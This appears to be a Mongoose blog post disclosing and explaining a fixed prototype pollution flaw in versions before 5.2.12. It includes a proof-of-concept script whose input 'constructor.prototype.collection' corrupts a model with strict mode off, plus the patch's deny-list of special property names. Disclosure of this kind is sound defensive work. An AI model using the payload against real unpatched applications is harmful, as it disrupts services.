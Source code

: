 In August, [the Node.js Security Group found a security vulnerability](https://twitter.com/mongoosejs/status/1035212908232200192) affecting all versions of Mongoose before 5.2.12 and 4.13.17. We released a [fix](https://github.com/Automattic/mongoose/blob/master/History.md#5212--2018-08-30) on August 30 and encouraged everyone to upgrade via [Twitter](https://twitter.com/mongoosejs/status/1035212908232200192), our [Slack channel](http://slack.mongoosejs.io/), and our [Gitter chat](https://gitter.im/Automattic/mongoose). [HackerOne recently released a formal disclosure](https://hackerone.com/bugs?report_id=390860&subject=user) of this issue on November 30. This blog post constitutes Mongoose's [full disclosure after a period of responsible disclosure](https://en.wikipedia.org/wiki/Responsible_disclosure). In this article, I'll describe the vulnerability and how Mongoose patched it.

Prototype Pollution
-------------------

In most JavaScript runtimes, every JavaScript object has [an `__proto__` property](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/proto) that points to its [constructor's prototype](https://www.w3schools.com/js/js_object_prototypes.asp).

```
$ node
> const x = {};
undefined
> x.prototype;
undefined
> x.__proto__;
{}
> x.__proto__ === Object.prototype;
true
>
```

The `__proto__` property is controversial and the [Mozilla docs](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/proto) consider it deprecated. However, JavaScript objects also have a well-accepted [`constructor` property](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) that points to this object's constructor. That means `x.constructor.prototype` is essentially equivalent to `x.__proto__`:

```
$ node
> x.constructor.prototype;
{}
> x.constructor.prototype === Object.prototype;
true
> x.constructor.prototype === x.__proto__;
true
>
```

These properties are dangerous because potentially malicious user data can leak into your implementation logic. For example, it is perfectly valid to overwrite the `constructor` property with `x.constructor = 'foo'`, but then your application logic cannot rely on `x.constructor`.

[Mongoose schemas](https://mongoosejs.com/docs/guide.html) exist to protect against this and other potentially dangerous naming conflicts. However, if you [disable `strict` mode in your schemas](https://mongoosejs.com/docs/guide.html#strict), Mongoose versions before 5.2.12 and 4.13.17 would let user data access `__proto__` and `constructor`, and potentially overwrite it. This means a malicious user could send some bad data that would corrupt the entire model and make all future operations on that model fail until the process was restarted. Below is a stript `disclosure.js` that demonstrates this vulnerability.

```javascript
const assert = require('assert');
const mongoose = require('mongoose');

const connectionString = `mongodb://localhost:27017/test`;
const { Schema } = mongoose;

run().then(() => console.log('done')).catch(error => console.error('Caught', error.stack));

async function run() {
  await mongoose.connect(connectionString, { useNewUrlParser: true });
  await mongoose.connection.dropDatabase();

  console.log('Mongoose version', mongoose.version);

  // This issue only happens if `strict` is set to `false`.
  const disabledStrictSchema = new mongoose.Schema({}, { strict: false });
  const Model = mongoose.model('Test', disabledStrictSchema);

  // Mongoose < 5.2.12 will overwrite the prototype
  const doc = new Model({ 'constructor.prototype.collection': null });

  // This will throw an error
  try {
    await doc.save();
  } catch(error) {
    console.log('Caught', error.message); // "Caught BSON field 'OperationSessionInfo.lsid.collection' is an unknown field."
  }

  // This will too. The malformed data corrupts the whole model
  try {
    await Model.create({});
  } catch (error) {
    console.log('Caught', error.message); // "Caught BSON field 'OperationSessionInfo.lsid.collection' is an unknown field."
  }
}
```

Below is the output of running the above script against Mongoose 5.2.10:

```
$ node disclosure.js
Caught BSON field 'OperationSessionInfo.lsid.collection' is an unknown field.
Caught BSON field 'OperationSessionInfo.lsid.collection' is an unknown field.
done
^C
$
```

Note that strict mode is enabled by default, so you are only affected by this issue if you explicitly set `strict: false`.

Mongoose's Patch
----------------

We added a [list of special properties internally](https://github.com/Automattic/mongoose/commit/fb8b644b7ffdd2799f23bb2d8dd1ba875ec8323a) that Mongoose will always refuse to [`set()`](https://mongoosejs.com/docs/api.html#document_Document-set). This will ensure that any time you create a new [Mongoose document](https://mongoosejs.com/docs/documents.html), Mongoose will silently ignore any updates to `__proto__`, `constructor`, and `prototype`, even if strict mode is disabled. Below is the output of running the `disclosure.js` script against Mongoose 5.3.14:

```
$ node disclosure.js
Mongoose version 5.3.14
done
^C
$
```

This patch prevents overwriting special properties on nested objects as well. Even if `constructor` isn't the first part of the path, being updated, Mongoose will strip it out:

```javascript
const assert = require('assert');
const mongoose = require('mongoose');

const connectionString = `mongodb://localhost:27017/test`;
const { Schema } = mongoose;

run().then(() => console.log('done')).catch(error => console.error('Caught', error.stack));

async function run() {
  await mongoose.connect(connectionString, { useNewUrlParser: true });
  await mongoose.connection.dropDatabase();

  console.log('Mongoose version', mongoose.version);

  const nestedSchema = new mongoose.Schema({}, { strict: false, _id: false });
  const disabledStrictSchema = new mongoose.Schema({ nested: nestedSchema }, { strict: false });
  const Model = mongoose.model('Test', disabledStrictSchema);

  const doc = new Model({ 'nested.constructor.prototype.collection': null });

  // `doc.nested` is an empty object
  console.log(doc);

  // Saves successfully
  await doc.save();
}
```

Moving On
---------

[Prototype pollution](https://ponyfoo.com/articles/how-to-avoid-objectprototype-pollution) is a dangerous pitfall, and it is [not uncommon](https://hackerone.com/reports/310443). We're looking into better ways to safeguard against this type of issue, like [`Object.freeze()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/freeze) and using [ES6 symbols for internal properties](https://github.com/Automattic/mongoose/commit/b6c81977e896f288bec38b177a455a4f88fa9ecd). If you have any questions or need any help upgrading, please reach out on [GitHub issues](https://github.com/Automattic/mongoose/issues/new) or [Mongoose's Slack channel](http://slack.mongoosejs.io/).
